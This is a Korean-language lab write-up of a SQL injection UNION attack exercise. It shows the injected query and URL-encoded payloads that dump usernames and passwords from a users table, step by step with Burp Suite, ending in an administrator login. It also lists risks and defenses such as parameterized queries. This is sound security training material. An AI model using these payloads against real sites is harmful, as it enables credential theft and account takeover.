



# Lab: SQL injection UNION attack, retrieving data from other tables



## Difficulty

Practitioner

---

## SQL Query

### 기존 Query

```sql
SELECT name, description
FROM products
WHERE category='Gifts';
```

### 공격 Query

```sql
SELECT name, description
FROM products
WHERE category='Gifts'

UNION

SELECT username, password
FROM users--;
```

### 결과

기존에는 `products` 테이블의 데이터만 조회되었지만,

`UNION SELECT`를 이용하여 `users` 테이블의 `username`과 `password` 컬럼의 데이터도 함께 조회할 수 있었다.

---

## 발생 가능한 위험

- 사용자 계정(username) 및 비밀번호(password) 유출
- 관리자 계정 탈취
- 개인정보 유출
- 추가적인 권한 상승 및 계정 탈취 공격으로 이어질 수 있다.

---

## 사용한 도구

- Burp Suite Repeater

---

## 실습 과정
1. Burp Suite에서 GET /filter?category= 요청을 Repeater로 전송
2. ORDER BY 이용하여 컬럼 개수를 확인
-> 컬럼 개수: 2
3. '+UNION+SELECT+'test','test'-- 이용하여 문자열 출력되는 컬럼 확인
4. '+UNION+SELECT+username,+password+FROM+users-- 사용하여 users 테이블에 있는 username, password 컬럼 값 출력<br/>

5. 출련된 정보 이용해 administrator 계정으로 로그인<br/>


---

## 조회한 데이터

- username
- password

---

## 대응 방안

- Prepared Statement(Parameterized Query)를 사용하여 SQL Injection을 방지한다.
- 사용자 입력을 SQL Query에 직접 연결하지 않는다.
- 데이터베이스 계정에 최소 권한을 부여하여 다른 테이블에 대한 조회를 제한한다.
- 민감한 정보가 포함된 테이블은 일반 웹 애플리케이션 계정으로 접근하지 못하도록 권한을 분리한다.
- SQL 오류 메시지와 데이터베이스 정보를 사용자에게 노출하지 않는다.

---

## 배운 점

이번 Lab을 통해 UNION Attack을 이용하면 화면에 문자열을 출력하는 것뿐만 아니라, 다른 테이블의 데이터를 조회하여 실제 데이터베이스의 정보가 유출될 수 있다는 점을 이해하였다.
또한 UNION 공격을 수행하기 위해서는 컬럼 개수와 출력 가능한 컬럼을 먼저 확인해야 하며, 이후 테이블과 컬럼의 데이터를 조회하는 순서로 공격이 진행된다는 점을 학습하였다.
